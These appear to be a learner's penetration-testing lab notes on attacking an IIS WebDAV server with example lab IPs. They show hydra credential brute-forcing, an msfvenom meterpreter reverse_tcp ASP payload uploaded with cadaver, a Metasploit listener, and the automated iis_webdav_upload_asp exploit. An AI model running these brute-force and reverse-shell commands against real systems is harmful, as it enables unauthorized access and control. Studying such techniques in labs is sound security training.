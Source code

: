 <pu>hydra</pu> can be used to brute force the credentials 
+ Example: `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.18.171 http-get /webdav/`
  + Where both the username and password is brute-force
  + `-L` to specify user list
  + `-P` to specify password list
  + the directory `/webdav/` will be gotten with a http-get and provided credentials 

### Exploiting WebDAV With Metasploit ###


#### Manual Way ####
<r>`msfvenom`</r>
+ Can be used to generate a payload to get a meterpreter session, which is an advance reverse shell (upload/download files)
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=USERIP LPORT=1234 -f asp > shell.asp`
  + payload is specified with '-p'
  + 'LHOST' is our computer 
  + 'LHOST' is the port we will listen with 
  + `-f` is to specify file type
  + `>` sends it to the file with the specified name

Can now use <r>`cadaver`</r> to send the payload
+ To get webdav sudo shell:
  + Example: `cadaver http://10.3.22.26/webdav`
  + Will also need to put username and password
+ Now can upload the payload: 
  + Example: `put /root/shell.asp`

Now need to set up a `listener` or `handler` to listen for out payload reaching out to us when we run it

Will first set up the postgresql service because metasploit needs it 
+ `service postgresql start && msfconsole`

Then will set up the handler:
+ `use multi/handler`
+ `set payload windows/meterpreter/reverse_tcp`
+ `set LHOST 10.1.0.9` (our IP)
+ `set LPORT 1234` (based on what we put in the payload)

Once your in
+ Can confirm it started with `sysinfo`
+ Can check privileges with `getuid`

#### Automated Way ####

Can use <r>`msfconsole`</r> to automate this process 
+ will `search iis upload`
  + and `use exploit/windows/iis/iis_webdav_upload_asp`
  + Will give us a meterpreter session automatically, with the following options set
    + `set HttpUsername bob`
    + `set HttpPassword password_123321`
    + `set RHOSTS 10.3.22.26` (target IP)
    + `set PATH /webdav/metasploit.asp` (webdav directory is where it is hosted and the name is set for the asp file)
    + Can now run/exploit 
+ Will automatically delete the payload, and will be given a meterpreter session
+ can also delete with <r>`cadaver`</r>
